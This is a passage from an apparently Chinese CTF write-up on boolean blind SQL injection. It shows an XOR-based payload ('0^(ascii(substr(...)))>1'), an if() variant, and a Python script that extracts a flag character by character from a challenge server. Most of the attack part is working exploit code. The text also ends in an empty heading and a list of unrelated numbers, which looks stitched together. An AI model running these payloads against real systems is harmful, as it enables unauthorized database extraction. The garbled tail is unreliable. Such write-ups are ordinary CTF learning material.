 

### 异或

这东西和那个堆叠注入一样，就见过一次，从此再也没用过，但这次就用到了。用它可以起到代替or的作用。
`0^(ascii(substr((select(flag)from(flag)),1,1))>1)`

但还有一些是没有用异或，用的是if，可if有局限性，在id为数字型时，可以直接 `select * from users where id=if(1=1,1,0)`，但如果id单引号字符型或双引号字符型，那就必须在if前加or或and。

就下来就时很容易的`bool注入`了
```py
import requests
import time

url = "http://be7c3bbe-f847-4c30-bfbd-baa005a54773.node3.buuoj.cn/index.php"
payload = {
	"id" : ""
}
result = ""
for i in range(1,100):
	l = 33
	r =130
	mid = (l+r)>>1
	while(l<r):
		payload["id"] = "0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
		html = requests.post(url,data=payload)
		print(payload)
		if "Hello" in html.text:
			l = mid+1
		else:
			r = mid
		mid = (l+r)>>1
	if(chr(mid)==" "):
		break
	result = result + chr(mid)
	print(result)
print("flag: " ,result)
```

---

## 反序列化





42040
16310
53361
77640
49390
60961
72891
40081
81111
60670
41490
49011
92721
66901
61650
59851
